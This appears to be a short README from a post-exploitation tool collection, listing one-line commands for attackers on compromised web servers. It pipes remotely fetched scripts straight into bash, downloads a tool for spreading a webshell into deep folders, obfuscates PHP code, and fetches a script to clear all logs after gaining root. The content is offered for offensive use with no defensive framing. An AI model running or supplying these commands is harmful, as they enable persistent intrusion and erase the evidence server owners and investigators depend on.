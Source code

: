 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/what_server.sh | bash
```
Spreading your webshell to the deepest destination folder 
```sh
wget https://raw.githubusercontent.com/haxor-research/tools/master/dor
```
Encrypt ur PHP Code
```php
php ob.php
```
Clear all logs if gain root
```sh
wget https://raw.githubusercontent.com/haxor-research/tools/master/clear.sh
```
